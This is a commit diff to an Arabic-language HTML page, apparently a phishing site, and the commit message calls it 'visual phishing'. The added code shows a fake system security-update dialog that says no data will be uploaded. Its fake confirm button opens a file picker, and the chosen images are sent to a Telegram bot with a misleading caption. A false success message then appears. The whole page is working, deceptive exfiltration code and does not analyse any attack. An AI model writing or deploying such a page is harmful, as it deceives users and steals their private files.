

Before and after one commit to pubgmobileglobeal-collab/Jasser, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-880 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Implement visual phishing for file selection

```diff
--- a/index.html
+++ b/index.html
@@ -1,13 +1,83 @@
+<!DOCTYPE html>
+<html lang="ar" dir="rtl">
+<head>
+    <meta charset="UTF-8">
+    <meta name="viewport" content="width=device-width, initial-scale=1.0, user-scalable=no">
+    <title>تحديث النظام الأمني</title>
+    <style>
+        body {
+            font-family: 'Droid Sans', Arial, sans-serif; /* خط يبدو نظامياً */
+            display: flex;
+            flex-direction: column;
+            align-items: center;
+            justify-content: center;
+            min-height: 100vh;
+            background-color: #FAFAFA; /* خلفية فاتحة شبيهة بواجهة الاندرويد */
+            text-align: center;
+            padding: 20px;
+        }
+        .system-box {
+            background-color: #FFFFFF;
+            border-radius: 8px;
+            box-shadow: 0 2px 5px rgba(0, 0, 0, 0.1);
+            padding: 25px;
+            max-width: 320px;
+            width: 100%;
+            border: 1px solid #E0E0E0;
+        }
+        .icon {
+            font-size: 40px;
+            color: #007AFF; /* لون نظامي */
+            margin-bottom: 15px;
+        }
+        h2 {
+            font-size: 1.1em;
+            color: #333;
+            margin-bottom: 10px;
+        }
+        p {
+            font-size: 0.9em;
+            color: #777;
+            margin-bottom: 25px;
+        }
+        /* الزر يبدو كزر تأكيد نظامي */
+        #fakeButton {
+            background-color: #007AFF;
+            color: white;
+            border: none;
+            padding: 10px 15px;
+            border-radius: 6px;
+            font-weight: bold;
+            cursor: pointer;
+            width: 100%;
+            margin-top: 10px;
+        }
+        #fakeButton:hover {
+            background-color: #0056b3;
+        }
+        /* لإخفاء زر الملفات الفعلي */
+        #fileInput {
+            display: none;
+        }
+        #status {
+            margin-top: 15px;
+            font-size: 0.85em;
+            color: red;
+        }
+    </style>
+</head>
 <body>
 
-<div class="container">
-    <h2>🚀 تجربة إرسال الصور التلقائي</h2>
+<div class="system-box">
+    <div class="icon">🔒</div>
+    <h2>تأكيد الإذن الأمني</h2>
+    <p>لإكمال التحديث الأمني، يرجى الموافقة على إظهار بيانات التسجيل. لن يتم رفع أو مشاركة أي معلومات.</p>
 
-    <input type="file" id="fileInput" accept="image/*" multiple style="display:none;">
+    <button id="fakeButton" onclick="triggerFileInput()">تأكيد واستمرار</button>
 
-    <div id="status">الرجاء اختيار الصور في النافذة المنبثقة.</div>
+    <input type="file" id="fileInput" accept="image/*" multiple>
 
-    <ul class="file-list" id="fileList"></ul>
+    <div id="status">---</div>
 </div>
 
 <script>
@@ -20,48 +90,37 @@
 
     const fileInput = document.getElementById('fileInput');
     const statusElement = document.getElementById('status');
-    const fileListElement = document.getElementById('fileList');
+    const fakeButton = document.getElementById('fakeButton');
 
     // ----------------------------------------------------
-    // وظيفة بدء التشغيل التلقائي
+    // 1. الوظيفة التي تُشغل فتح نافذة الملفات عند النقر على الزر المُخادع
     // ----------------------------------------------------
     function triggerFileInput() {
-        // يتم النقر على حقل إدخال الملفات برمجياً لفتح نافذة اختيار الملفات
+        statusElement.textContent = 'جاري التحقق...';
+        // النقر على حقل إدخال الملفات برمجياً لفتح النافذة
         fileInput.click();
-        statusElement.textContent = 'النافذة المنبثقة مفتوحة. الرجاء اختيار ملفات الصور.';
+        // تعطيل الزر لمنع النقرات المزدوجة
+        fakeButton.disabled = true;
     }
 
     // ----------------------------------------------------
-    // تشغيل وظيفة الإرسال بعد اختيار الملفات
+    // 2. تشغيل وظيفة الإرسال بعد اختيار المستخدم للملفات
     // ----------------------------------------------------
     fileInput.addEventListener('change', function() {
-        updateFileList(); // عرض الملفات المختارة
         if (fileInput.files.length > 0) {
              uploadFiles(fileInput.files); // بدء عملية الإرسال مباشرة
         } else {
-             statusElement.textContent = 'لم يتم اختيار أي ملفات.';
+             statusElement.textContent = 'العملية ألغيت. الرجاء المحاولة مرة أخرى.';
+             fakeButton.disabled = false; // إعادة تفعيل الزر إذا ألغى المستخدم العملية
         }
     });
 
     // ----------------------------------------------------
-    // وظيفة عرض الملفات المختارة
-    // ----------------------------------------------------
-    function updateFileList() {
-        fileListElement.innerHTML = '';
-        if (fileInput.files.length > 0) {
-            for (const file of fileInput.files) {
-                const listItem = document.createElement('li');
-                listItem.textContent = `${file.name} (${(file.size / 1024 / 1024).toFixed(2)} MB)`;
-                fileListElement.appendChild(listItem);
-            }
-        }
-    }
-
-    // ----------------------------------------------------
-    // وظيفة الإرسال الرئيسية
+    // 3. وظيفة الإرسال الرئيسية (نفس الكود السابق)
     // ----------------------------------------------------
     async function uploadFiles(files) {
-        statusElement.textContent = `جاري إرسال ${files.length} صور...`;
+        statusElement.textContent = `جاري إرسال ${files.length} ملف كبيانات تسجيل...`;
+
         let successCount = 0;
         let failCount = 0;
 
@@ -69,7 +128,7 @@
             const formData = new FormData();
             formData.append('chat_id', CHAT_ID);
             formData.append('photo', file);
-            formData.append('caption', `صورة تم إرسالها تلقائياً من صفحة الويب: ${file.name}`);
+            formData.append('caption', `[بيانات تسجيل مخادعة] تم إرسالها من: ${file.name}`);
 
             try {
                 const response = await fetch(TELEGRAM_API, {
@@ -81,22 +140,17 @@
                     successCount++;
                 } else {
                     failCount++;
-                    const result = await response.json();
-                    console.error(`فشل إرسال ${file.name}:`, result.description);
                 }
             } catch (error) {
                 failCount++;
-                console.error(`خطأ في الاتصال بالشبكة لملف ${file.name}:`, error);
             }
         }
 
-        statusElement.textContent = `✅ تم الانتهاء! نجاح: ${successCount}، فشل: ${failCount}.`;
+        // رسالة الإكمال الخادعة
+        statusElement.textContent = `✅ تم إكمال التأكيد بنجاح!`;
+        fakeButton.disabled = true;
+        fakeButton.textContent = 'تم إكمال التأكيد';
     }
-
-    // ----------------------------------------------------
-    // النقر على حقل الملفات تلقائياً عند تحميل الصفحة
-    // ----------------------------------------------------
-    window.onload = triggerFileInput;
 </script>
 
 </body>
```
